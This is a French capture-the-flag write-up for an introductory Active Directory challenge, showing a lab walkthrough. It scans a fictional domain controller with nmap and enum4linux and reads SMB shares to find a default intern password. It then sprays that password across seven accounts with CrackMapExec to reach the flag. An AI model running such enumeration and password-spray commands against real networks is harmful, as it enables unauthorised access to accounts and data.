 #  Houston, we have a problem

**Catégorie** : Active Directory/Réaliste  
**Difficulté** : Intro  
**Author**: HF47

## Description du challenge

CTFCORP a récemment accueilli de nouveaux stagiaires. L'équipe de sécurité soupçonne que des mots de passe par défaut n'ont pas été changés. Votre mission : vérifier si ces comptes sont vulnérables à une attaque par password spray et obtenir l'accès aux ressources partagées.

## Solution

### 1. Reconnaissance et découverte réseau

Commençons par une reconnaissance réseau pour identifier les services disponibles :

```bash
hf47@kali> nmap -sV -p- 192.168.56.0/24

map scan report for 192.168.56.4
Host is up (0.00056s latency).
Not shown: 986 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Microsoft Windows Server 2016 Essentials microsoft-ds
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

```

Ce scan révèle que nous sommes face à un contrôleur de domaine Windows Server 2016 Essentials avec plusieurs services ouverts, notamment :
- SMB (ports 139/445) pour le partage de fichiers
- LDAP (port 389) pour l'annuaire Active Directory
- Kerberos (port 88) pour l'authentification
- RDP (port 3389) pour l'accès à distance

Examinons plus en détail les services SMB disponibles :

```bash
hf47@kali> enum4linux -a 192.168.56.4

...
[+] Server 192.168.56.4 allows sessions using username '', password ''
[...]
DC1 <20> - File Server Service
CTFCORP <1c> - Domain Controllers
[...]
```
La premiere ligne nous indique que le serveur accepte une connexion SMB avec un compte vide (pas de nom d'utilisateur, pas de mot de passe). Attention, cela ne veut pas dire que nous pouvons lire le contenu des shares mais simplement que l'étape d'authentification passe sans erreur en cas de compte vide. La traduction huamine de cette ligne serait: "Tu peux frapper à la porte sans être jeté immédiatement… mais on t’ouvre pas non plus."

La deuxième ligne nous confirme la présence d'un service `SMB` sur notre Active Directory. 

### 2. Exploration des partages réseau

Commençons par examiner les partages réseau disponibles :

```bash
hf47@kali> smbclient -L //192.168.56.4 -U "<USERNAME>%<PASSWORD>"
```

Nous découvrons deux partages intéressants :
- `Public` (accessible à tous)
- `Stagiaires` (accès en lecture pour notre compte)

### 3. Accès au partage Public

Connectons-nous au partage Public pour chercher des informations :

```bash
hf47@kali> smbclient //192.168.56.4/Public -U '<USERNAME>%<PASSWORD>'
smb: \> ls
  .                                   D        0  Thu May 23 10:15:21 2024
  ..                                  D        0  Thu May 23 10:15:21 2024
  notes_accueil.txt                   A      339  Thu May 23 10:15:21 2024

smb: \> get notes_accueil.txt
getting file \notes_accueil.txt of size 339 as notes_accueil.txt (5.5 KiloBytes/sec) (average 5.5 KiloBytes/sec)
smb: \> exit
```

Examinons le contenu du fichier récupéré :

```bash
hf47@kali> cat notes_accueil.txt

=== NOTES D'ACCUEIL - CTFCORP ===

Bienvenue aux nouveaux arrivants !

Pour les stagiaires: 
- Votre mot de passe initial par défaut est généralement "Bienvenue2024!"
- Vous devez le changer dès votre première connexion si ce n'est pas déjà fait
- Consultez le trombinoscope sur le partage réseau "Stagiaires"
- Votre manager vous contactera dans les 24h

En cas de problème de connexion, contactez le support IT.

--
Équipe RH
CTFCORP
```

Nous découvrons une information cruciale : **les stagiaires utilisent généralement le mot de passe par défaut `Bienvenue2024!`**

### 4. Accès au partage Stagiaires pour trouver les cibles

Connectons-nous maintenant au partage Stagiaires pour identifier les comptes cibles :

```bash
hf47@kali> smbclient //192.168.56.4/Stagiaires -U '<USERNAME>%<PASSWORD>'
smb: \> ls
  .                                   D        0  Thu May 23 10:15:21 2024
  ..                                  D        0  Thu May 23 10:15:21 2024
  trombinoscope.txt                   A      389  Thu May 23 10:15:21 2024
  procedures_stages.txt               A      226  Thu May 23 10:15:21 2024

smb: \> get trombinoscope.txt
getting file \trombinoscope.txt of size 389 as trombinoscope.txt (9.8 KiloBytes/sec) (average 9.8 KiloBytes/sec)
smb: \> exit
```

Examinons le trombinoscope :

```bash
hf47@kali> cat trombinoscope.txt

=== TROMBINOSCOPE DES STAGIAIRES 2024 ===

Département Marketing:
- stagiaire01 - Pierre Dupont - Stagiaire Marketing Digital
- stagiaire02 - Marie Lambert - Stagiaire Communication

Département IT:
- stagiaire03 - Lucas Martin - Stagiaire Développement
- stagiaire04 - Sophie Bernard - Stagiaire Réseaux
- stagiaire05 - Thomas Petit - Stagiaire Cybersécurité

Département Finance:
- stagiaire06 - Julie Moreau - Stagiaire Comptabilité
- stagiaire07 - Alexandre Leroy - Stagiaire Audit

Pour contacter un stagiaire: prenom.nom@ctfcorp.local
```

Nous avons maintenant 7 cibles potentielles pour notre password spray :
- stagiaire01
- stagiaire02
- stagiaire03
- stagiaire04
- stagiaire05
- stagiaire06
- stagiaire07

### 5. Password Spray

À ce stade, nous avons identifié:
- Les comptes cibles (stagiaire01 à stagiaire07)
- Le mot de passe par défaut (`Bienvenue2024!`)

Commençons par créer un fichier contenant les noms d'utilisateurs :

```bash
hf47@kali> echo -e "stagiaire01\nstagiaire02\nstagiaire03\nstagiaire04\nstagiaire05\nstagiaire06\nstagiaire07" > users.txt
```

Puis, effectuons notre password spray avec CrackMapExec et l'option `--no-bruteforce` :

```bash
hf47@kali> crackmapexec smb 192.168.56.4 -u users.txt -p 'Bienvenue2024!' --no-bruteforce
SMB         192.168.56.4    445    DC1              [*] Windows Server 2016 Essentials 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         192.168.56.4    445    DC1              [-] ctfcorp.local\stagiaire01:Bienvenue2024! STATUS_LOGON_FAILURE 
SMB         192.168.56.4    445    DC1              [-] ctfcorp.local\stagiaire02:Bienvenue2024! STATUS_LOGON_FAILURE 
SMB         192.168.56.4    445    DC1              [-] ctfcorp.local\stagiaire03:Bienvenue2024! STATUS_LOGON_FAILURE 
SMB         192.168.56.4    445    DC1              [-] ctfcorp.local\stagiaire04:Bienvenue2024! STATUS_LOGON_FAILURE 
SMB         192.168.56.4    445    DC1              [+] ctfcorp.local\stagiaire05:Bienvenue2024! 
```

Un seul compte a gardé le mot de passe par défaut : `stagiaire05` (ironiquement, le stagiaire en cybersécurité). C'est exactement ce qu'on cherchait ! Nous pouvons maintenant nous connecter avec ce compte.

### 6. Accès au partage Stagiaires en tant que stagiaire

Connectons-nous au partage Stagiaires avec le compte `stagiaire05` :

```bash
hf47@kali> smbclient //192.168.56.4/Stagiaires -U 'stagiaire05%Bienvenue2024!'
smb: \> ls
  .                                   D        0  Thu May 23 10:15:21 2024
  ..                                  D        0  Thu May 23 10:15:21 2024
  trombinoscope.txt                   A      389  Thu May 23 10:15:21 2024
  procedures_stages.txt               A      226  Thu May 23 10:15:21 2024

smb: \> get procedures_stages.txt
getting file \procedures_stages.txt of size 226 as procedures_stages.txt (5.8 KiloBytes/sec) (average 5.8 KiloBytes/sec)
smb: \> exit
```

Examinons le document de procédures :

```bash
hf47@kali> cat procedures_stages.txt

=== PROCÉDURES POUR LES STAGIAIRES ===

1. Lors de votre première connexion, changez votre mot de passe par défaut
2. Remplissez la fiche d'accueil (voir modèle sur le partage)
3. Consultez régulièrement votre messagerie professionnelle

Note confidentielle pour les administrateurs:
404CTF{P4ssW0rd_Spr4y_1s_T00_E4sy_F0r_St4g14ir3s}
```

Le flag se trouve dans le document des procédures : `404CTF{P4ssW0rd_Spr4y_1s_T00_E4sy_F0r_St4g14ir3s}`
